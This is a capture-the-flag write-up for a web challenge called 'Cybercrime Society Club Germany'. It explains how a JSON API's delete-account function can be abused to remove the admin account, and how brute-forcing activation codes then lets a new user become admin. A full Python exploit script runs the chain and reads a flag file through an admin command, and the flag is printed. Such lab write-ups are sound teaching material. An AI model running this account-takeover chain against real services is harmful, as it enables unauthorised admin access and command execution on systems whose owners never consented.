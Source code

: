 # Cybercrime Society Club Germany
> You are agent Json Bourne. Your mission: Hack this new cybercrime website before it is too late.

## About the Challenge
We have been given a website and a source code (You can download the source code [here](cybercrime-society-club-germany.zip))

![preview](images/preview.png)

There are 2 features, login and signup. Here is the preview of the signup feature

![signup](images/preview_signup.png)

And here is the preview of login feature

![login](images/preview_login.png)

## How to Solve?
This is a stolen challenge from `Cyber Security Rumble 2022 - Robert is a gangsta` (You can see the writeup [here](https://www.norelect.ch/writeups/csr2022/robertisagansta/)). But there is a difference where we're not only just create an account, but we need to set the email to `admin@cscg.de`

```python
def is_admin(self, email):
    user = self.db.get(email)
    if user is None:
        return False

    #TODO check userid type etc
    return user["email"] == "admin@cscg.de" and user["userid"] > 90000000
```

And to bypass this we create a random user and then delete our account with the admin account by sending this HTTP request

```
POST /json_api HTTP/1.1
Host: example
Cookie: auth=28379856-e66b-4121-a8fb-5b6d90f68c87
...

{"action":"delete_account","data":{"email":"example@mail.com","test":"admin@cscg.de"}}
```

Why we can delete the admin account too? Let's take a look at delete account function

```python
def api_delete_account(data, user):
    if user is None:
        return error_msg("not logged in")

    if data["data"]["email"] != user["email"]:
        return error_msg("Hey thats not your email!")

    # print(list(data["data"].values()))
    if delete_accs(data["data"].values()):
        return success_msg("deleted account")
```

This code utilizes `data["data"].values()` to delete user accounts. Consequently, if we input two sets of key values in the JSON, the program will delete these two accounts.

And after we delete the admin account, create another user and then change the user email to `admin@cscg.de`. And voilà

![admin](images/admin.png)

I am using the source code from this [blog](https://www.norelect.ch/writeups/csr2022/robertisagansta/) to solve the problem, and I have made some edits.

```python
import requests

s1 = requests.Session()

print("Creating account")
s1.post("https://b500c0bd44e0afd54abb2304-1024-cybercrime-society-club-germany.challenge.master.camp.allesctf.net:31337/json_api", json={
    "action": "create_account",
    "data": {
        "email": "info@example.com",
        "password": "whatever",
        "groupid": ".0E",
        "userid": "9998",
        "activation": ["{:0>4}".format(i) for i in range(10000)]
    }
})

print("Login")
s1.post("https://b500c0bd44e0afd54abb2304-1024-cybercrime-society-club-germany.challenge.master.camp.allesctf.net:31337/json_api", json={
    "action": "login",
    "data": {
        "email": "info@example.com",
        "password": "whatever"
    }
})

print("Delete admin")
s1.post("https://b500c0bd44e0afd54abb2304-1024-cybercrime-society-club-germany.challenge.master.camp.allesctf.net:31337/json_api", json={
    "action": "delete_account",
    "data": {
        "email": "info@example.com",
        "test": "admin@cscg.de"
    }
})


s2 = requests.Session()

print("Creating account again")
req1 = s2.post("https://b500c0bd44e0afd54abb2304-1024-cybercrime-society-club-germany.challenge.master.camp.allesctf.net:31337/json_api", json={
    "action": "create_account",
    "data": {
        "email": "info@example.com",
        "password": "whatever",
        "groupid": ".0E",
        "userid": "9998",
        "activation": ["{:0>4}".format(i) for i in range(10000)]
    }
})

print("Login")
s2.post("https://b500c0bd44e0afd54abb2304-1024-cybercrime-society-club-germany.challenge.master.camp.allesctf.net:31337/json_api", json={
    "action": "login",
    "data": {
        "email": "info@example.com",
        "password": "whatever"
    }
})

print("Change email to admin")
s2.post("https://b500c0bd44e0afd54abb2304-1024-cybercrime-society-club-germany.challenge.master.camp.allesctf.net:31337/json_api", json={
    "action": "edit_account",
    "data": {
        "email": "admin@cscg.de"
    }
})

print("Executing command")
r2 = s2.post("https://b500c0bd44e0afd54abb2304-1024-cybercrime-society-club-germany.challenge.master.camp.allesctf.net:31337/json_api", json={
    "action": "admin",
    "data": {
        "cmd": ["date", "-f", "flag.txt", "-u"]
    }
})

print(r2.json())
```

![flag](images/flag.png)

```
ALLES!{js0n_b0urn3_str1kes_ag4in!}
```